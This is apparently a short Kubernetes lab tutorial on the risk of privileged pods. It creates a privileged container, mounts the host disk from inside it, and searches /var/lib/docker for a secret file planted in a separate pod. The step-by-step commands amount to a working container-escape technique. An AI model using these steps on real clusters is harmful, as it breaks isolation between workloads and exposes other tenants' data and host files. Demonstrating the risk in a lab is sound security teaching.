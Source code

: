 #### Step 1 - Create a Non-Priveleged Super Secret Pod:
```sh
nano super-secret-pod.yaml
```
```sh
apiVersion: v1
kind: Pod
metadata:
  name: super-secret
  namespace: development
spec:
  containers:
  - image: nginx
    name: demo-pod
```
```sh
kubectl apply -f super-secret-pod.yaml
```
#### Step 2 - Create a Privileged Pod:
```sh
nano privileged.yaml
```
```sh
apiVersion: v1
kind: Pod
metadata:
  name: privileged
  namespace: development
spec:
  containers:
  - image: nginx
    name: demo-pod
    securityContext:
      privileged: true
```
```sh
kubectl apply -f privileged.yaml
```
#### Step 3 - Store Secret Data in Super Secret Pod:
```sh
kubectl exec -n development -it super-secret -- bash
echo "TOP Secret" > /root/super-secret.txt
```
logout of the super-secret pod

#### Step 4 - Connect to Privileged Pod:

Note: The disk name might be different in your-case. Please ensure you use the right naming while mounting.
```sh
kubectl exec -n development -it privileged -- bash
mkdir /host-data
```
```sh
mount /dev/sda1 /host-data
cd /host-data
cd /host-data/var/lib/docker/
find . -name super-secret.txt
```

